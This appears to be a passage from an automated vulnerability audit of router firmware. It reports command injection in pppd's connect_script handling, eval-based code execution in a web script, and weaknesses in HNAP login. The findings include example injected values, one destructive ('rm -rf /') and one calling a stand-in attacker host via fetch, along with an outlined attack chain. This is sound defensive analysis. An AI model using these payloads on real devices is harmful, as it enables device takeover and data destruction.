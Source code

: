 - **Notes:** Verify the specific structure of the target buffer. Related files: Network service components that may be invoked by httpd.

---
### command_execution-pppd-connect_script_injection

- **File/Directory Path:** `bin/pppd`
- **Location:** `pppd:0x406c7c [connect_tty]`
- **Risk Score:** 9.5
- **Confidence:** 8.5
- **Description:** Command Injection Vulnerability: The `connect_script` configuration value is directly passed to `/bin/sh -c` for execution in the `connect_tty` function (0x406c7c). Trigger Condition: An attacker modifies the `connect_script` value through the web REDACTED_PASSWORD_PLACEHOLDER file (e.g., injecting `'; rm -rf /'`). Security Impact: Arbitrary command execution during network connection establishment, enabling complete device control.
- **Code Snippet:**
  ```
  execl("/bin/sh", "sh", "-c", script_command, 0);
  ```
- **Keywords:** connect_script, sym.connect_tty, sym.device_script, execl, /bin/sh, -c, /etc/ppp/options
- **Notes:** Actual attack chain: HTTP interface → nvram_set → configuration file update → pppd execution; Related knowledge base keywords: /bin/sh, -c

---
### network_input-publicjs-eval_rce

- **File/Directory Path:** `wa_www/public.js`
- **Location:** `public.js:88`
- **Risk Score:** 9.5
- **Confidence:** 8.25
- **Description:** The eval function directly executes the user-input 'userExpression' (line 88). Attackers can trigger remote code execution by submitting malicious forms (e.g., ';fetch(attacker.com)'). The input originates from the calcInput field with no sanitization or sandbox isolation.
- **Code Snippet:**
  ```
  const userExpression = document.getElementById('calcInput').value;
  const result = eval(userExpression);
  ```
- **Keywords:** userExpression, calcInput.value, eval, calculateResult
- **Notes:** Check if it is restricted by the CSP policy.

---
### network_input-hnap-auth_implementation

- **File/Directory Path:** `REDACTED_PASSWORD_PLACEHOLDER.html`
- **Location:** `MobileLogin.html: (OnClickLogin)`
- **Risk Score:** 9.0
- **Confidence:** 9.25
- **Description:** The HNAP authentication protocol implementation exposes sensitive processes: 1) Obtaining Challenge/Cookie 2) Generating PrivateKey using hex_hmac_md5 3) Submitting login. Attackers can perform man-in-the-middle attacks to tamper with the process or exploit encryption implementation flaws (e.g., hmac_md5.js vulnerabilities) to bypass authentication. Trigger condition: Intercepting and tampering with HNAP_XML protocol communications.
- **Code Snippet:**
  ```
  PrivateKey = hex_hmac_md5(PublicKey + REDACTED_PASSWORD_PLACEHOLDERword, Challenge);
  ```
- **Keywords:** HNAP_XML, Challenge, Cookie, hex_hmac_md5, PrivateKey
- **Notes:** Specialized analysis is required for the encryption implementations of /js/hmac_md5.js and /js/hnap.js.

---